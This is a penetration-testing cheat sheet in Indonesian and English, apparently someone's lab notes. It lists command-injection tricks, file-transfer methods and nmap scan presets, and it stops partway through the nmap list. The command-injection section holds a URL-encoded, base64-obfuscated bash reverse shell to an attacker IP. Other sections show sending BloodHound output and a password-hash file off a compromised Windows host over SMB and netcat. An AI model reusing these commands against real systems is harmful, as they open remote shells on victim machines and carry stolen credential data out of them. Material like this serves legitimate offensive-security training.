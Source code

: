 ## Command Execution Trickz
https://book.hacktricks.xyz/pentesting-web/command-injection

1. Check if the command is executed on CMD or powershell on dows
```cmd
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell
```
2. Buat pembatas jgn lupa url encode ; or &&

3. Jgn lupakan backtick
```cmd
`ls`
`man`
%60echo+YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE2OC8xMjM0IDA%2BJjE%3D+%7C+base64+-d+%7C+bash%60
```

## TRANSFER FILE FROM WINDOWS TO KALI LINUX
```bash Kali machine
impacket-smbserver shatternox . -smb2support -user asd -password asd
```
```cmd Windows
net use X: \\192.168.45.168\shatternox /user:asd asd

copy 20240411030917_BloodHound.zip \\192.168.45.168\shatternox
```

## Transferring File Using Netcat (netcat transfer file nc transfer file)
https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/

> Di mesin kita yg mau nerima ex: Kali Linux
```bash (Kita listen)
nc -l -p 1234 > hash_file
```
> Di mesin target yang mau ngirip file: ex Windows Mesin Kedua (After Foothold)
```bash (Dia ngirim, connect)
nc.exe -w 3 <our_kali_ip> 1234 < hash_file

-w >> maximum timeout (secs)
```

# NMAP - INITIAL - NMAP SCAN
1. Nmap
- Regular
```bash
sudo nmap -sCVS -oN nmap/astronaut -vvv 192.168.207.12 
```
- Regular + UDP (takutnya ada SNMP)
```bash
sudo nmap -sVU -oN nmap/astronaut -vvv 192.168.207.12 -p 161
```
- FULL THROTTLE
```bash
sudo nmap -sV -oN nmap/pascha_full -vvv 192.168.182.155 -p- -T5
```
- Quickwin
```bash
sudo nmap -sVS -oA nmap/astronaut -vvv 192.168.207.12 --script "vuln"
```
- No more leads
```bash
sudo nmap -sCVS -oA nmap/astronaut_full -vvv 192.168.207.12 -p-
sudo nmap -p80 --script=http-enum 192.168.50.20
```
- Ping is blocked
